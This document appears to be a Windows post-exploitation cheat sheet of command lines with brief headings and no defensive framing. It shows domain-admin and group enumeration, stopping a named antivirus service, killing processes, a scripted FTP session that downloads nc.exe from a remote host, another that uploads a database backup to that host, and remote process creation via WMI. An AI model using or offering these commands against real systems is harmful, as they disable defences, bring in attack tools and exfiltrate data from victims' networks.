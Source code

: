 View the list of domain admins:
```
	net group "Domain Admins" /domain
```

View domain groups
```
	net group /domain
	powershell (new-object system.directoryservices.directorysearcher("(&(objectcategory=user)(samaccountname=$($env:username)))")).FindOne().GetDirectoryEntry().memberof
```

View the list of started services (search for antivirus):
```
	net start
	sc query
```

Stop a service:	
```
	net stop "Symantec Endpoint Protection"
```

View the list of started processes and the owner:
```	
	tasklist /v
```

Kill a process by its name:	
```	
	taskkill /F /IM "cmd.exe"
```

Abort a shutdown/restart countdown:	
```	
	shutdown /a
```

Download an executable from a remote FTP server:
```
	echo open 10.1.2.3> C:\script.txt
	echo user myftpuser>> C:\script.txt
	echo pass myftppass>> C:\script.txt
	echo get nc.exe>> C:\script.txt
	echo bye>> C:\script.txt
	ftp -s:script.txt
```

Upload a file to a remote FTP server:
```
	echo open 10.1.2.3> C:\script.txt
	echo user myftpuser>> C:\script.txt
	echo pass myftppass>> C:\script.txt
	echo put E:\backups\database.dbf>> C:\script.txt
	echo bye>> C:\script.txt
	ftp -s:script.txt
```

WMI call remote system
```
    wmic /node:remote_computer process call create "netstat.exe -ano > C:\output.txt"
```
